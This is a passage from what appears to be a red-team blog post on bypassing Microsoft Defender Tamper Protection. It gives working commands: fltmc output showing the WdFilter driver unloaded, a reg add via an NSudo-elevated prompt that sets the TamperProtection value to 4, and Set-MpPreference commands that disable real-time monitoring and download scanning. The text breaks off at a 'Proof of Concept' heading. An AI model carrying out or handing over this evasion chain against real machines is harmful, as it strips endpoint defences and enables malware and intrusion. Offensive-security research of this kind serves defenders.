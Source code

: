 ```
C:\Users\Administrator> fltmc

Filter Name                     Num Instances    Altitude    Frame
------------------------------  -------------  ------------  -----
bindflt                                 0       409800         0
storqosflt                              0       244000         0
wcifs                                   0       189900         0
CldFlt                                  0       180451         0
FileCrypt                               0       141100         0
luafv                                   1       135000         0
npsvctrig                               1        46000         0
Wof                                     1        40700         0
```

Now that the WdFilter kernel minidriver is no longer loaded and protecting the Defender Registry Keys, successfully proceed to disable these unprotected keys, in this case the Tamper Protection regkey as it is the next protection chain in line to finally in turn disable defender protections like Real-time protection.

Continue disabling Tamper Protection using reg.exe in the newly spawned NSudo elevated prompt as before by setting the `TamperProtection` subkey to `4/0`:

```
# Command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v TamperProtection /t REG_DWORD /d 4 /f
The operation completed successfully.
```

Finally, since Tamper Protection is now disabled leaving Defender / MDE settings vulnerable to change, disable AV and AMSI in a standard PowerShell Administrator prompt (SYSTEM / TrustedInstaller privileges are not mandatory) using the following commands:

```
# Disable Real-time protection altogether
PS C:\Users\Administrator> Set-MpPreference -DisableRealtimeMonitoring $true

# Only disables scanning for downloaded files or attachments
PS C:\Users\Administrator> Set-MpPreference -DisableIOAVProtection $true
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124183431.png)

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a a reboot to render the same change in the "Security Settings" GUI Prompt.*

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124183731.png)

The attack chain can be summarized as follows:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/edited.png)



## Proof of Concept
